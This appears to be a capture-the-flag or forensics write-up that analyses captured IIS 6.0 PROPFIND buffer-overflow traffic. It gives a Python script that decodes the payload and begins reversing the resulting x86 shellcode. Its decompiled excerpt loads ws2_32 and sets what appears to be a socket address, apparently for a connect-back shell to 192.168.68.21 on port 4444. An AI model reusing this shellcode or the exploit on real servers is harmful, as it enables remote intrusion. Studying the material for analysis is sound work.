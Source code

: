 Bingo! Looks like this old version of IIS has a vulnerability that leads to code execution. What's even more great, is that the second link in the screenshot (https://www.fortinet.com/blog/threat-research/buffer-overflow-attack-targeting-microsoft-iis-6-0-returns) talks a great deal about it. In particular, it talks a great deal about the technicalities, including what the contents looks like in the PROPFIND requests, and even a nice python script that decodes it for us! Here's the script, transcribed to python 3:

```python
encoded_bytes = ...

decoded_bytes = bytearray([])
for i in range(len(encoded_bytes)//2):
    block=encoded_bytes[i*2:i*2+2]
    decoded_byte_low = block[1] & 0x0F
    decoded_byte_high = (((block[1]) >> 4) + ((block[0]) & 0x0F)) & 0x0F
    decoded_byte=decoded_byte_low + (decoded_byte_high <<4)
    decoded_bytes.append(decoded_byte)

with open("decrypted.bin", "wb") as f:
    f.write(decoded_bytes)
```

If we pick a random weird-looking PROPFIND request and feed the data through the script, we get a nice decoded binary file containing x86 shell-code. In the remaining, we are assuming the shell code and its addresses as indicated by [this dump](decrypted.bin), which has an entrypoint at address 0x151.

Let the reversing begin!
------------------------

The shell code's entry point starts off with a call to `0x000001d8`, which we refer to as `shellmain` from now on. Looking into `shellmain`, we see some weird stuff going on:

```c
void shellmain(void)
{
    /* ... */
    
    local_8 = &uStack4;
    uStack4 = 0x5f327377; // "ws2_32"
    uStack12 = 0x726774c;
    uStack16 = 0x1eb;
    (*unaff_retaddr)(); // weird call
    puStack416 = auStack412;
    uStack420 = 400;
    uStack424 = 0x6b8029;
    iStack428 = 0x1fb;
    iStack440 = (*unaff_retaddr)(); // weird call
    iStack444 = iStack440 + 1;
    iStack448 = iStack440 + 2;
    uStack452 = 0xe0df0fea;
    iStack456 = 0x20a;
    iStack436 = iStack440;
    iStack432 = iStack440;
    iStack428 = iStack440;
    uVar3 = (*unaff_retaddr)(); // weird call
    iStack456 = 5;
    uStack460 = 0x1544a8c0;
    uStack464 = 0x5c110002;
```
